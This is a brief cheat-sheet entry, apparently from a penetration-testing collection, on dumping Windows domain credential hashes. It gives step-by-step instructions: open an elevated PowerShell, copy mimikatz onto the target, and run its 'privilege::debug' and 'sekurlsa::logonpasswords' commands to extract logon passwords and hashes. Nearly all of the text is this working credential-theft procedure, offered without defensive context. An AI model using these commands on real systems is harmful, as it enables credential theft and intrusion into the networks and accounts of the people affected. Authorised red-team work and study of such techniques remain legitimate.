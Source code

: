 Domain Hashes can be extracted from machines where the user is a local administrator.
# Step 1:
Launch powershell prompt with elevated privileges.
# Step 2:
Transfer mimikatz to target.
# Step 3:
Dump credentials.
```
.\mimikatz.exe
```
```
privilege::debug
```
```
sekurlsa::logonpasswords
```
